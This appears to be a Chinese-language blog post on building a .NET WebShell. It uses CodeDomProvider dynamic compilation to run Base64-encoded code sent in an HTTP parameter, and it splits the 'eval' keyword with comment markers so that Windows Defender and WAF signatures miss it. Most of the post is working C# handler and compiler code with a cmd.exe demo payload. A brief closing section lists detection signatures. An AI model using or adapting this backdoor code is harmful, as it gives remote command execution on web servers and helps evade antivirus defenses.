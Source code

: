 ![](https://lequ.co/2022/05/cover44.gif)

## 一、前言

当下主流的Waf或Windows Defender等终端杀软、EDR大多都是从特征码查杀，在.Net和VBS下一句话木马中最常见的特征是eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从.NET 内置的CodeDomProvider类下手实现动态编译.NET代码，指明JScrip或者C#作为编译语言，编译的WebShell目前`Windows Defender不会查杀`。而防御者从流量或终端识别 "CodeDomProvider.CreateProvider、CreateInstance"等特征码。

## 二、动态编译

.Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类`CodeDomProvider` 和 `CompilerParameters`，前者相当于编译器，后者相当于编译器参数，CodeDomProvider支持多种语言（如C#、VB、Jscript），编译器参数CompilerParameters.GenerateExecutable默认表示生成dll，`GenerateInMemory= true`时表示在内存中加载，CompileAssemblyFromSource表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过CreateInstance实例化对象并反射调用自定义类中的方法。

```C#
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```

## 三、落地实现

上述代码里的SourceText方法需提供编译的C#源代码，笔者创建了NeteyeInput类，如下

```C#
public static string SourceText(string txt)
{
    StringBuilder sb = new StringBuilder();
    sb.Append("using System;");
    sb.Append(Environment.NewLine);
    sb.Append("namespace  Neteye");
    sb.Append(Environment.NewLine);
    sb.Append("{");
    sb.Append(Environment.NewLine);
    sb.Append("    public class NeteyeInput");
    sb.Append(Environment.NewLine);
    sb.Append("    {");
    sb.Append(Environment.NewLine);
    sb.Append("        public void OutPut()");
    sb.Append(Environment.NewLine);
    sb.Append("        {");
    sb.Append(Environment.NewLine);
    sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
    sb.Append(Environment.NewLine);
    sb.Append("        }");
    sb.Append(Environment.NewLine);
    sb.Append("    }");
    sb.Append(Environment.NewLine);
    sb.Append("}");
    string code = sb.ToString();
    return code;
}
```

类里声明了OutPut方法，该方法里通过Base64解码得到输入的原生字符串，笔者在这里以计算器作为演示，将`“System.Diagnostics.Process.Start("cmd.exe","/c calc");”`编码为

```shell
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序ProcessRequest方法中调用

```C#
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    if (!string.IsNullOrEmpty(context.Request["txt"]))
    {
        DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
        context.Response.Write("Execute Status: Success!");
    }
    else
    {
        context.Response.Write("Just For Fun, Please Input txt!");
    }
}
```

![](https://lequ.co/2022/05/4401.png)

## 四、其他方法

Jscript.Net 动态编译拆解eval

在.NET安全领域中一句话木马主流的都是交给eval关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要`避开eval`，而在.NET中eval只存在于Jscript.Net，所以需要将动态编译器指定为Jscript，其余和C#版本的动态编译基本一致，笔者通过插入无关字符将eval拆解掉，代码如下

```C#
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            {
                public static function RunExp(expression : String) : String
                {
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                }
            }";
```

只需在编译的时候替换掉无关字符串“/*@Ivan1ee@*/”，最后编译后反射执行目标方法。

```C#
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```

## 五、防御措施

- 一般web应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance等等，一旦告警需格外关注；

- 由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下dll文件内容的监控；

- 文章涉及的代码已经打包在: [https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)